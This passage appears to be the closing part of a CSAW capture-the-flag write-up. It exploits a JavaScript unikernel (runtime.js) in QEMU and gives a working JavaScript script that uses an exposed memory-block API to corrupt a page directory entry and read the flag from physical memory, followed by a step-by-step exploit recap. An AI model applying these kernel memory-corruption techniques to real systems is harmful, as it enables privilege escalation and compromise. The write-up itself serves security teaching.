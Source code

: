 ```
PD[0x21eeeef&~0x1fffff] = PD[0x10] = *0x1a01080 = 0xdeada00000 (our corruption)
```

Offsetting `0x21eeeef` from this gives us `0xdeadbeef`, and that's it.
  
Flag script:

```javascript
block = function(addr, len) 
{
    return new Uint8Array(__SYSCALL.getSystemResources().memoryRange.block(addr, len).buffer())
}

strdump = function(a, len) {
    s = ""
    for (var i = 0; i < len; i++)
        s += String.fromCharCode(a[i])
    return s
}

pd = block(0x1a01080, 0x80)
pd[0] = 0x8b
pd[1] = 0x0
pd[2] = 0xa0
pd[3] = 0xad
pd[4] = 0xde

flag = block(0x21eeeef, 0x30)
console.log(strdump(flag, 0x30))

/*
 --- starting qemu --- 
Kernel build #2062 (v8 5.4.9)
runtime.js v0.2.14
loading...
[random] using entropy source js-random
[UDP] no route to 8.8.8.8
flag{1_th0t_j@vascript_w@s_mem0ry_s@f3!}[UDP] no route to 8.8.8.8
[UDP] no route to 8.8.8.8
[UDP] no route to 8.8.8.8
*/
```

Exploit Recap:

1. Get arbitrary read/write with `getSystemResources().memoryRange.block()`
2. Overwrite kernel code to get code exec
3. Leak `cr3` to find actual page tables
4. Overwrite a page table to point to physical address `0xdeada00000`
5. Flag
  
Thanks to the CSAW organizers for the cool challenge and to Hyper for not helping :)

--
pernicious (RPISEC)
